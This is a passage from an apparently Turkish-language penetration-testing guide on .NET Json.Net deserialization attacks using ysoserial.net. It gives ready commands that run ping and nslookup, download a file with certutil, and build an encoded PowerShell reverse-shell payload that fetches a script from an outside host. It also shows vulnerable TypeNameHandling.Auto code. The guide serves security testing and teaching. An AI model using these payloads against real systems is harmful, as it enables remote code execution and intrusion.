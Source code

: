 **ysoserial examples** to create exploits:
```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
**ysoserial.net** ayrıca her exploit'in nasıl çalıştığını daha iyi anlamaya yardımcı olan **çok ilginç bir parametreye** sahiptir: `--test`\
Eğer bu parametreyi belirtirseniz **ysoserial.net** **exploit'i yerel olarak deneyecek**, böylece payload'unuzun doğru çalışıp çalışmayacağını test edebilirsiniz.\
Bu parametre yararlıdır çünkü kodu incelerseniz aşağıdaki gibi kod parçaları bulursunuz (şu dosyadan: [ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):
```java
if (inputArgs.Test)
{
try
{
SerializersHelper.JsonNet_deserialize(payload);
}
catch (Exception err)
{
Debugging.ShowErrors(inputArgs, err);
}
}
```
Bu, exploit'i test etmek için kodun [serializersHelper.JsonNet_deserialize](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Helpers/SerializersHelper.cs#L539) çağıracağı anlamına gelir.
```java
public static object JsonNet_deserialize(string str)
{
Object obj = JsonConvert.DeserializeObject<Object>(str, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
return obj;
}
```
In the **previous code is vulnerable to the exploit created**. So if you find something similar in a .Net application it means that probably that application is vulnerable too.\
Therefore the **`--test`** parameter allows us to understand **which chunks of code are vulnerable** to the desrialization exploit that **ysoserial.net** can create.
